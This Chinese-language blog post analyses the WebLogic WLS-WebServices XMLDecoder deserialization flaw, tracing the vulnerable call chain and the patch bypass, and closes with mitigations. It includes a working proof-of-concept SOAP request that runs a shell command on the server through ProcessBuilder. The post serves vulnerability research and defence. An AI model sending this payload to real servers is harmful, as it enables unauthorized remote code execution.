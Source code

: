 ```yaml
---
layout: post
title: WebLogic WLS-WebServices组件反序列化漏洞分析
categories: vulnerability analysis
tags: [vulnerability analysis]
---
```


最近由于数字货币的疯涨，大量机器被入侵后用来挖矿，其中存在不少部署了Weblogic服务的机器，因为Weblogic最近所爆出安全漏洞的exploit在地下广泛流传。回到这个漏洞本身，其原因在于WLS-WebServices这个组件中，因为它使用了XMLDecoder来解析XML数据。有安全研究人员在去年八月份就向官方报告了此漏洞，Oracle官方在今年四月份提供了补丁程序。但是，四月份提供的补丁感觉是在敷衍了事，因此很快就被绕过了。为此官方又只能新发补丁，不过十月份所提供的补丁，检查还是比较严格。下面具体来看看此次反序列漏洞
## 0x01漏洞复现
测试环境 Weblogic 10.3.6.0/jdk1.6.0_45/Linux

漏洞POC

```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 127.0.0.1:7001
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.84 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: close
Content-Type: text/xml
Content-Length: 777

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">  
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">  
      <java> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/sh</string> 
            </void>  
            <void index="1"> 
              <string>-c</string> 
            </void>  
            <void index="2"> 
              <string>id > /tmp/chaitin</string>
            </void> 
          </array>  
          <void method="start"/> 
        </void> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header>  
  <soapenv:Body/> 
</soapenv:Envelope>
```
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139326533815.jpg)
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139326768139.jpg)
## 0x02漏洞分析
此次漏洞出现在wls-wsat.war中，此组件使用了weblogic自带的webservices处理程序来处理SOAP请求。然后在

```
weblogic.wsee.jaxws.workcontext.WorkContextServerTube
```
类中获取XML数据传递给XMLDecoder来解析。

解析XML的调用链为

```
weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest

weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld

weblogic.wsee.workarea.WorkContextXmlInputAdapter

```
首先看到weblogic.wsee.jaxws.workcontext.WorkContextServerTube.processRequest方法
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139338809033.jpg)
获取到localHeader1后传递给readHeaderOld方法，其内容为```<work:WorkContext>```所包裹的数据，然后继续跟进weblogic.wsee.jaxws.workcontext.WorkContextTube.readHeaderOld方法
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139340157538.jpg)
在此方法中实例化了WorkContextXmlInputAdapter类，并且将获取到的XML格式的序列化数据传递到此类的构造方法中，最后通过XMLDecoder来进行反序列化操作。
![](http://ogmho3r7t.bkt.clouddn.com/2017-12-23-15139341082935.jpg)
关于XMLDecoder的反序化问题13年就已经被人发现，近期再次被利用到Weblogic中由此可见JAVA生态圈中的安全问题是多么糟糕。值得一提的是此次漏洞出现了两处CVE编号，因为在Oracle官方在修复CVE-2017-3506所提供的patch只是简单的检查了XML中是否包含了<object>节点，然后将<object>换为<void>即可绕过此补丁。因此在修复过程中用户一定要使用Oracle官方十月份所提供的patch。

## 0x03漏洞防御
1. 临时解决方案
根据业务所有需求，考虑是否删除WLS-WebServices组件。包含此组件路径为：

```
Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat

Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war

Middleware/wlserver_10.3/server/lib/wls-wsat.war
```
以上路径都在WebLogic安装处。删除以上文件之后，需重启WebLogic。确认http://weblogic_ip/wls-wsat/ 是否为404页面。

2. 官方补丁修复
前往Oracle官网下载10月份所提供的安全补丁。

## 0x04 参考资料
http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

https://github.com/pwntester/XMLDecoder


